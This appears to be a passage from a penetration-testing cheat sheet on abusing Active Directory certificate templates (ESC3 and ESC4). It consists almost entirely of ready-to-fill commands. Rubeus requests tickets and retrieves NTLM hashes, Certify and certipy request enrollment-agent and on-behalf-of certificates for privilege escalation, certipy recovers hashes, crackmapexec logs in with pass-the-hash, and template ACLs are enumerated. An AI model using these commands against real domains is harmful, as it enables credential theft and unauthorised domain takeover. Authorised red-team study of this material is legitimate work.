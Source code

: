 ````

#### Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

### Linux
#### Request Enrollment Agent Certificate
- Template 1
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE NAME> /user:<USER TO ENROLL> /domain:<DOMAIN>

certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -template <TEMPLATE NAME> -upn <SAMACCOUNTNAME>@<FQDN DOMAIN> -out 'esc3' -debug -EnrollmentAgent-certipy
```

#### Enroll agent on behalf of another user
- Template 2
- Use the original certipy without `/extensionsid`
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -template <TEMPLATE NAME> --on-behalf-of <DOMAIN>\<USER> -pfx '<PATH TO esc3.pfx>' -out 'esc3_admin' -timeout 30 -debug
```

#### Unpac the hash
```
certipy auth -pfx 'esc1.pfx'
```

#### Check access
```
cme smb <FQDN> -u <USER> -H <NTLM HASH>
```

### ESC4 Template ACEs
- Abuse ACL's on the template and then abuse ESC1, ESC2 or ESC3
- Requirements
	- User with  `Object Control Permissions` ACL `Owner`, `FullControl`, `WriteOwner`, `WriteDacl` or `WriteProperty`

### Windows
#### Enumerate ACLs for users
```
.\Certify.exe pkiobjects
```

#### Enumerate templates and ACL's
- Shows `Object Control Permissions`
```
Certify.exe find /showAllPermissions
```

#### Enumerate ACLs specific template
- https://github.com/FuzzySecurity/StandIn
```
````
